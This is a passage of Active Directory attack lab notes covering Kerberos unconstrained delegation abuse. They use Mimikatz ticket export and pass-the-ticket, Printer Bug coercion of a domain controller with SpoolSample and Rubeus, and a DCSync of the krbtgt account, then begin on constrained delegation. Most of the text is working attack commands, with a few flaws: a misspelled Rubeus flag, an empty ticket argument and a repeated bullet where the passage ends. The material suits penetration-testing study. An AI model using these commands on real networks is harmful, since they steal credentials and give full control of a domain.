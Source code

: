 ```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

Now, Compromise the server(s) where Unconstrained delegation is enabled.

\--> We must trick or wait for a domain admin to connect a service on appsrv.

Now, if the command is run again -

```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

The DA token could be reused -

```
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgtDOLLARCORP.MONEYCORP.LOCAL.kirbi"' 
```

### Unconstrained Delegation - Printer Bug

* How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Printer Bug!
* A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.
* We can force the dcorp-dc to connect to dcorp-appsrv by abusing the Printer bug.
* We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv -

```
Rubeus.exe monitor /interval:5 /nowrap
```

* And after that run MS-RPRN.exe&#x20;
* (https://github.com/leechristensen/SpoolSample) on the student VM -

```
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

**BONUS --> If you are attacking from a Linux machine, check out Coercer (https://github.com/p0dalirius/Coercer) for other MS protocols that can be abused for coercion.**

* Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM -

```
Rubeus.exe ptt /tikcet:
```

* Once the ticket is injected, run DCSync -

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### Constrained Delegation - (request it out of a thin air, no need to DA privs)

* Constrained Delegation when enabled on a service account, allows access only to specified services on specified computers as a user.
* A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization.
* To impersonate the user, Service for User (S4U) extension is used which provides two extensions -
  * Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user.
  * Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user.
* To impersonate the user, Service for User (S4U) extension is used which provides two extensions -